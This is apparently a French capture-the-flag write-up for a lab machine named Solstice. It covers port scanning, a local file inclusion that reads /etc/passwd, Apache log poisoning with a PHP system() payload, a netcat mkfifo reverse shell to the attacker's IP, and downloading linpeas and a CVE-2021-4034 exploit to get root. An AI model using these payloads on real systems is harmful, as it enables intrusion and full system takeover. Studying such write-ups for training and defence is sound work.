 # Solstice

    sudo nmap -p -sV 192.168.204.72
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.72 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.72
    feroxbuster --silent -u http://192.168.204.72

Scans classiques. 

    21/tcp    open  ftp        pyftpdlib 1.5.6
    22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    25/tcp    open  smtp       Exim smtpd
    80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
    2121/tcp  open  ftp        pyftpdlib 1.5.6
    3128/tcp  open  http-proxy Squid http proxy 4.6
    8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    62524/tcp open  tcpwrapped
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

J'ai essayé de me connecter en mode anonyme sur les deux ports FTP. Le premier a refusé, le deuxième a accepté mais ne contient rien.

    ftp anonymous@192.168.204.72 -P 2121
 
En revanche, il y a deux autres serveurs web sur les ports 8593 et 54787. Je commence par le 8593, l'énumération ne donne rien mais l'URL http://192.168.204.72:8593/index.php?book=list peut éventuellement amener des failles de type LFI.

Et en effet cela fonctionne avec un simple essai sur /etc/passwd :

    curl http://192.168.204.72:8593/index.php?book=../../../../../etc/passwd |  grep  -v nologin

J'ai trouvé l'utilisateur Miguel mais je n'arrive pas à récupérer de clé SSH, ou de fichier intéressant plus généralement. En revanche les logs sont bien là où elles devraient être : 

    curl http://192.168.204.72:8593/index.php?book=../../../../../var/log/apache2/access.log

Par élimination, il reste donc les failles de type Log Poisoning à essayer. La manière classique avec la modification du User-Agent semble passer et nous donne bien un reverse-shell :

    curl  -A  "BACKDOOR <?php system(\$_GET['cmd'])?>" http://192.168.204.72 
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2F  
    f%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.231%209001%20%3E%2Ftmp%2Ff
    cat /var/www/local.txt


Élévation de privilèges toute simple avec un CVE : 

    wget http://192.168.45.231/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee res.txt
    ...
    wget http://192.168.45.231/CVE-2021-4034.sh
    ./CVE-2021-4034.sh
    ls /root
    cat /root/proof.txt

